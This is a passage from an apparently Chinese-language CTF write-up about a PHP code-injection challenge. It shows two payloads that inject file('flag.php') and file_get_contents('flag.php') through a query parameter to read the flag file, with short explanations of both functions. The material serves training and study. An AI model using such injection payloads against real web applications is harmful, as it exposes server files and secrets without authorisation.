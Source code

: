 ![在这里插入图片描述](img/6cab5c646cb3650e3f271390a4078661.png)
但是flag不对，查了一下，发现很多人都遇到这个问题，这里应该是网站的问题，就不管了，过程最重要！

方法二：

利用`file()`或`get_file_contents`函数

```
file_get_contents() 函数把整个文件读入一个字符串中
file() 函数把整个文件读入一个数组中。 
```

**payload：**

```
?hello=file('flag.php') 
```

![在这里插入图片描述](img/700f37e3e4fb3a28a7a2adf7815690af.png)
**payload：**

```
?hello=file_get_contents('flag.php') 
```
